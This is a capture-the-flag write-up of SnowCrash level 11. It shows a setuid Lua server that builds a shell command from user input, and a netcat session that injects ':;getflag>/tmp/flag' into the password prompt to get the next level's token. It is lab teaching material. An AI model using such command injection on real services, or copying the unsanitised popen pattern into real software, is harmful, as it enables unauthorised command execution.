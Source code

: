 # level11

## Weird lua server

Our wacky hint file for this level is a lua script.
```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
level11@SnowCrash:~$ cat level11.lua
```
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()
  data = string.sub(data, 1, 40)
  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end
  client:close()
end
```

In lua, `..` is the string concatenation operator, and we can execute arbitrary shell commands since this script isn't sanitizing its inputs.
```bash
level11@SnowCrash:~$ nc localhost 5151
Password: :;getflag>/tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
level11@SnowCrash:~$ su level12
Password: fa6v5ateaw21peobuub8ipe6s
level12@SnowCrash:~$
```
